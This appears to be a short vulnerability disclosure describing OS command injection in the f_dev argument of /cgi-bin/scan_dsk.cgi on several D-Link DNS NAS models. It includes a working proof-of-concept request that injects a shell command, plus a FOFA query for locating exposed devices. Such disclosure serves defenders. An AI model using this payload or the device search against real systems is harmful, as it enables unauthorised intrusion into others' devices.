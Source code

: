 <font style="color:rgb(0, 0, 0);background-color:rgb(252, 252, 252);">A vulnerability was found in D-Link DNS-320, DNS-320LW, DNS-325 and DNS-340L . Affected by this vulnerability is the function ScanDisk_run_e2fsck of the file /cgi-bin/scan_dsk.cgi. The manipulation of the argument f_dev leads to os command injection.</font>



scan_dsk.cgi

![](https://cdn.nlark.com/yuque/0/2024/png/21552368/1731581307014-39ae36ec-62b9-4514-916a-cac7772b4a8b.png)

`if ( v2[0] != 97 || v2[1] )` 

v2[0] !=  97: Check if the first character of v2 is not equal to the ASCII code value of 97 (i.e. character 'a').

V2 [1]: Check if the second character of v2 is non-zero.

![](https://cdn.nlark.com/yuque/0/2024/png/21552368/1731581288130-695aac5f-3961-44ea-bc4a-2c4a46069456.png)



poc:

```plain
/cgi-bin/scan_dsk.cgi?cmd=ScanDisk_run_e2fsck&f_dev=a;id;
```

![](https://cdn.nlark.com/yuque/0/2024/png/21552368/1731581840608-ff7a58b7-6aa3-4b7f-8e52-2134178125e3.png)

fofa

> app="D_Link-DNS-ShareCenter"
>

![](https://cdn.nlark.com/yuque/0/2024/png/21552368/1731581902487-8d7c7998-703b-4911-ac5c-c7ca491bf06f.png)

